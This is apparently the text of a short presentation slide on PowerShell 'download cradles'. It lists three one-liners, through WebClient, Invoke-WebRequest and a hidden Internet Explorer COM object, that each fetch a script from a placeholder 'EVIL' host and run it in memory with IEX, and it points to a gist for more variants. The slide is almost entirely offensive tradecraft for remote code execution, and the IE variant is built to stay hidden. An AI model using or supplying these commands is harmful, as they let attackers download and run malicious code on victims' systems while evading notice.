

Powershell
Download Cradles

# normal download cradle
IEX (New-Object Net.Webclient).downloadstring("http://EVIL/evil.ps1")

# PowerShell 3.0+
IEX (iwr 'http://EVIL/evil.ps1’)

# hidden IE com object
$ie=New-Object -comobject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://EVIL/evil.ps1');start-sleep -s 5;$r=$ie.Document.body.innerHTML;$ie.quit();IEX $r
Hosted PSH Script
See moar here --> https://gist.github.com/HarmJ0y/bb48307ffa663256e239
@h3xg4m3s